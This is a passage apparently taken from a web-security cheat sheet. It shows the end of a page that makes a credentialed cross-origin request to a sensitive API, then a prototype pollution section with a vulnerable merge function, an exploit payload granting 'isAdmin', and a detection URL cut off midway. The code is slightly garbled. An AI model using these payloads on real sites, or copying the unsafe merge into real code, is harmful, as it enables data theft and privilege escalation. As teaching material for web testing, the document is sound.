 ```bash
};
xhr.open('GET', 'https://target.com/api/sensitive');
xhr.withCredentials = true;
xhr.send();
</script>
</body>
</html>
```

### Prototype Pollution

```javascript
// Vulnerable code
function merge(target, source) {
    for (let key in source) {
        target[key] = source[key];
    }
}

// Exploit
merge({}, JSON.parse('{"__proto__": {"isAdmin": true}}'));
console.log({}.isAdmin); // true

// Client-side detection
# Check if URL parameters are merged into objects
https://target.com/?__
```****